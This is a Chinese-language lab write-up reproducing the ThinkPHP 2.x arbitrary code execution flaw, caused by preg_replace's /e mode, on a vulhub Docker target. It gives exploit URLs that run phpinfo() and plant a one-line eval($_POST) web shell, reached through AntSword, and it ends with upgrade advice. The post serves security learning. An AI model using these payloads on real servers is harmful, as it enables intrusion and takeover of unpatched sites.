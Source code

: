 ```yaml
---
title: 【Thinkphp漏洞复现】ThinkPHP 2.x-任意代码执行
date: 2025-09-02
categories:
  - Web攻防
  - 渗透测试
  - 靶场
image: images/29.webp
---
```

# 0x00 实验环境
攻击机：Win 11
靶机也可作为攻击机：Ubuntu20 （docker搭建的vulhub靶场）
vulhub靶场下载地址：
```
https://vulhub.org/zh#/environments/thinkphp/2-rce/
```
部署：
```
cd vulhub-master/thinkphp/2-rce 
docker-compose up -d 
docker ps
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134038.png)
# 0x01 影响版本
**标志**：/index.php
**版本**：thinkphp2.x
**简介**：在ThinkPHP 2.x版本中，使用preg_replace的`/e`模式匹配路由：
```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```
导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞
大体说的还是因为php版本在**5.6.29**以下时都是支持该函数执行中间的命令的，可到了**7.x**就不支持了。简单来讲就是
```
preg_replace('正则规则','替换字符','目标字符')
```
**e** 配合函数**preg_replace()使用**, 可以把匹配来的字符串当作正则表达式执行;
**/e** 可执行模式，此为PHP专有参数，例如preg_replace函数。
例如：
```
<?php
@preg_replace('/test/e','print_r("AAA");','just test');
```
只要在“just test”中匹配到了“test”字符，就执行中间的print_r这条函数的命令。
# 0x02 漏洞复现
注：复现是比较简单的，原理需要自己去深入剖析
（1）访问页面
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134411.png)
（2）使用报错爆出thinkphp的版本2.1：
```
http://192.168.197.140:8080/index.php/111
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134632.png)
 （3）抓包或者使用插件查看一下有没有php的版本号，上面有介绍过，那个命令执行的触发条件<=php5.6.29，下面这个版本是满足条件的：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134623.png)
（4）漏洞利用：
```
http://192.168.197.140:8080/index.php?s=/index/index/xxx/${@phpinfo()}
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134735.png)
（5）传马，使用以下语句（类似于在该页面写入了一句话木马）：
```
http://192.168.197.140:8080/index.php?s=/Index/index/xxx/${@print(eval($_POST[1]))}
```
菜刀与蚁剑均能连接：
蚁剑连接：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902135056.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902135103.png)
# 0x02 漏洞修复
**升级框架版本**
ThinkPHP 2.x 已停止维护，漏洞无法通过零散修复彻底解决。**最彻底的方式是升级到官方支持的最新版本**（如 ThinkPHP 5.1 或 6.x），这些版本对输入过滤、路由解析等机制进行了全面重构，安全性大幅提升。


